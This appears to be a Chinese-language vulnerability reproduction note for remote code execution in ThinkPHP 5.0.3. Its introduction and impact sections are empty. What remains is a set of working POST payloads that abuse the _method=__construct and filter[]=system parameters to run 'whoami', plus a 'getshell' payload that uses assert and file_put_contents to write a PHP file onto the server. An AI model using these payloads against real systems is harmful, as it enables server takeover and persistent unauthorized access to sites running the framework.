 Thinkphp 5.0.3
==============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> www.0-sec.org/?s=index/index

    POST

    s=whoami&_method=__construct&method=POST&filter[]=system

    aaaa=whoami&_method=__construct&method=GET&filter[]=system

    _method=__construct&method=GET&filter[]=system&get[]=whoami

> getshell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
